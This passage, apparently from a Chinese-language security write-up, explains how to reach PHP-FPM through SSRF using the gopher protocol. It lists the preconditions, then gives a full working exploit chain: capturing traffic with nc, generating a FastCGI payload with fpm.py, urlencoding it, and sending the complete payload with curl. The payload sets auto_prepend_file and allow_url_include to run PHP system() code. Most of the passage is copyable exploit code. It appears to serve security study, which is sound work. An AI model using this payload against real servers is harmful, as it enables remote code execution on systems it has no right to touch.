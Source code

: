 - libcurl版本>=7.45.0
- PHP-FPM监听端口
- PHP-FPM版本 >= 5.3.3
- 知道服务器上任意一个php文件的绝对路径

由于EXP里有%00，CURL版本小于7.45.0的版本，gopher的%00会被截断。

<https://curl.haxx.se/changes.html#7_45_0>

Fixed in 7.45.0 - October 7 2015

> gopher: don't send NUL byte

#### 3.3.2 转换为Gopher的EXP

监听一个端口的流量 `nc -lvv 2333 > 1.txt`，执行EXP，流量打到2333端口

```
python fpm.py -c "<?php system('echo sectest > /tmp/1.php'); exit;?>" -p 2333 127.0.0.1 /usr/local/nginx/html/p.php
```

urlencode

```
f = open('1.txt')
ff = f.read()
from urllib import quote
print quote(ff)
```

得到gopher的EXP

```
%01%01%16%21%00%08%00%00%00%01%00%00%00%00%00%00%01%04%16%21%01%E7%00%00%0E%02CONTENT_LENGTH50%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%1BSCRIPT_FILENAME/usr/local/nginx/html/p.php%0B%1BSCRIPT_NAME/usr/local/nginx/html/p.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%1BREQUEST_URI/usr/local/nginx/html/p.php%01%04%16%21%00%00%00%00%01%05%16%21%002%00%00%3C%3Fphp%20system%28%27echo%20sectest%20%3E%20/tmp/1.php%27%29%3B%20exit%3B%3F%3E%01%05%16%21%00%00%00%00
```

执行EXP

```
curl 'gopher://127.0.0.1:9000/_%01%01%16%21%00%08%00%00%00%01%00%00%00%00%00%00%01%04%16%21%01%E7%00%00%0E%02CONTENT_LENGTH50%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%1BSCRIPT_FILENAME/usr/local/nginx/html/p.php%0B%1BSCRIPT_NAME/usr/local/nginx/html/p.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%1BREQUEST_URI/usr/local/nginx/html/p.php%01%04%16%21%00%00%00%00%01%05%16%21%002%00%00%3C%3Fphp%20system%28%27echo%20sectest%20%3E%20/tmp/1.php%27%29%3B%20exit%3B%3F%3E%01%05%16%21%00%00%00%00'
```

## 四、修复
